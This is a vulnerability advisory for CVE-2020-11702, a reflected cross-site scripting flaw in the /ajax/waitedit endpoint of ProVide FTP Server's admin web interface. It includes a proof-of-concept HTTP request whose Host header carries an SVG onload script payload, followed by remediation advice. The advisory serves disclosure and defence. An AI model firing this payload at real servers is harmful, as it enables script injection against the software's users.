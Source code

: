 ```yaml
---
layout: default
grand_parent: ProVide FTP Server for Windows
nav_order: 1
parent: CVE-2020-11702 - Multiple XSS in Web User Interface
title: Reflected XSS in /ajax/waitedit
---
```


# Waitedit - Reflected Cross-Site-Scripting via Host Header manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

In the context of this vulnerability, a logged in attacker may execute active content in the context of other logged in users, injecting JavaScript or other active contect in the display name, and sharing a public accessible link.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/waitedit. The manipulation of the **Host header** with the input value `"/a><svg/onload=alert(1)><a href="` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11702. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URL:**

* https://provide.ftp.local:8443/dkb4QRBT4hG4EGMu/ajax/waitedit

**Sample request:**

```
POST /n8nTTXWuZgi9gDyy/ajax/waitedit HTTP/1.1
Host: "/a><svg/onload=alert(1)><a href="
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: https://provide.ftp.local
Connection: close
Referer: https://provide.ftp.local/
Cookie: ProVideSessionID=u1aSUSPhZUEgmuu

url=https%3A%2F%2Fprovide.ftp.local%2Fn8nTTXWuZgi9gDyy%2F4Z93Q76H%2Ftestfiletxt
```

## Remediation

Updating the software to v14.0 or higher should solve the issue.

## References

* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [https://www.google.com/intl/en/about/appsecurity/learning/xss/](https://www.google.com/intl/en/about/appsecurity/learning/xss/) 
